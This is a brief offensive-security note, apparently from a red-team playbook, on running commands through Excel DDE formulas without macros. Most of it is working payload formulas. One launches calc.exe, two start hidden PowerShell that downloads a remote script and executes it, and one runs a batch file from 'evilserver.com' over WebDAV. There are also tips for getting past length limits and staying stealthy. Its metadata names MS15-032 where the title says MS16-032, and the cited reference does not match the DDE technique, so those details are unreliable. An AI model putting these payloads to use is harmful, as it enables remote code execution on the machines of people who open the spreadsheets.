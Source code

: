 # Exploiting MS16-032 via Excel DDE without macros
DDE = transfer data between applications, a form of Inter-Process Communication (IPC)
Execute cmd and the second part is the argument.
```=cmd|'/c calc.exe'!A1```
* Arguments have to be inside single quotes 
* Length restrictions on both the executable and the arguments
* BYPASS: instruct powershell to load a script

base64 encoded
```=cmd|'/c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"https://trusted.domain/script.base64\");powershell -e $e'!A1```

plain .ps1
```=cmd|'/c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"https://trusted.domain/script.ps1\");IEX $e'!A1```

bat file via webdav (stealthier)
```=cmd|'/c \\evilserver.com\sp.bat;IEX $e'!A1```

## MS16-032 via excel DDE functionality
 https://googleprojectzero.blogspot.co.uk/2016/03/exploiting-leaked-thread-handle.html


```meta
ttp: T1000
internal: false
requirements: 
results: 
description: MS15-032 (DDE) vuln
```